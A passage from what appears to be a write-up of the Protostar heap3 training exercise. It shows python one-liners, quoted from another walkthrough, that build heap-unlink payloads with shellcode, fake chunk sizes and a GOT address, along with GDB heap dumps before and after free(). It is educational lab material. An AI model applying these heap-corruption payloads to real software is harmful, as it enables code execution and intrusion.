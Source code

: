 ```bash
0x804c0b0:	0x00000060	0xfffffffc	0xfffffffc	0x0804b11c
0x804c0c0:	0x0804c014	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
```


Let's try without GDB:
```bash
$ ./heap3 $(cat /tmp/A) $(cat /tmp/B) $(cat /tmp/C)
that wasn't too bad now, was it? @ 1725553812
Segmentation fault
```


```bash
mov eax,0x8048864
call eax
mov edi,0
call exit
```


### third attempt: another way
This one is from [Joshua Wang](https://conceptofproof.wordpress.com/2013/11/19/protostar-heap3-walkthrough/) article:
```bash
python -c 'print("\x90"*14 + "\x68\x64\x88\x04\x08\xc3" + "A"*12 + "\xf8\xff\xff\xff" + "\xfc\xff\xff\xff")' > /tmp/a

python -c 'print "BBBB"*2+"\x1c\xb1\x04\x08"+"\x08\xc0\x04\x08"' > /tmp/b
```

Run in GDB `run $(cat /tmp/a) $(cat /tmp/b) CCCC`:

**Here is the heap memory after the last `strcpy` call, of course with modified values to pass this challenge:**
```bash
0x804c000:	0x00000000	0x00000029	0x90909090	0x90909090
0x804c010:	0x90909090	0x64689090	0xc3080488	0x41414141
0x804c020:	0x41414141	0x41414141	0xfffffff8	0xfffffffc
0x804c030:	0x42424242	0x42424242	0x0804b11c	0x0804c008
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x43434343	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
```

**After the first `free(c)` call:**
```bash
0x804c000:	0x00000000	0x00000029	0x90909090	0x90909090
0x804c010:	0x90909090	0x64689090	0xc3080488	0x41414141
0x804c020:	0x41414141	0x41414141	0xfffffff8	0xfffffffc
0x804c030:	0x42424242	0x42424242	0x0804b11c	0x0804c008
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	*0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
```
